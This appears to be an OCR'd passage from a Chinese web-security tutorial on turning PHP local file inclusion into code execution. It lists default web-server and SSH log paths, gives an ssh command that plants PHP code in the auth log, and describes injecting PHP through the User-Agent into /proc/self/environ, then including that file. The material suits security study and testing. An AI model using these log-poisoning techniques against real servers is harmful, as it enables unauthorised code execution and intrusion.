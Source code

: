 利用前提：

需要服务器日志的绝对路径，且权限能够读取日志文件。



```plain
1.apache+Linux日志默认路径：

  /etc/httpd/logs/access.log、/var/log/httpd/access.log、/var/log/apache2/access.log、/var/log/nginx/access.log

2.apache+win2003日志默认路径：

  D:\xampp\apache\logs\access.log、D:\xampp\apache\logs\error.log

3.IIS6.0+win2003默认日志文件：

  C:\WINDOWS\system32\Logfiles

4.IIS7.0+win2003 默认日志文件：
  %SystemDrive%\inetpub\logs\LogFiles

5.nginx 日志文件：日志文件在用户安装目录logs目录下,假设安装路径为/usr/local/nginx,那日志目录就是在/usr/local/nginx/logs下面
```

#### 4.2 SSH log（登录文件日志）

一般ssh的日志文件位于（需要有读取权限）：

```plain
1./var/log/auth.log

2./var/log/secure
```

首先通过ssh连接发起一个请求让它被记录，请求格式为：

```
ssh '<?php phpinfo(); ?>'@xxx.xxx.xxx
```

然后包含log文件

### 1.5 /proc

#### 1. environ

利用前提：

1. php以cgi方式运行，在environ中会保存UA头。
2. environ文件存储位置已知，且environ文件可读。
3. environ文件默认位置：`/proc/self/environ`。

先在UA头中插入PHP代码，该条UA记录会被保存到`/proc/self/environ`中，然后包含该文件实现代码执行。

#### 2. fd
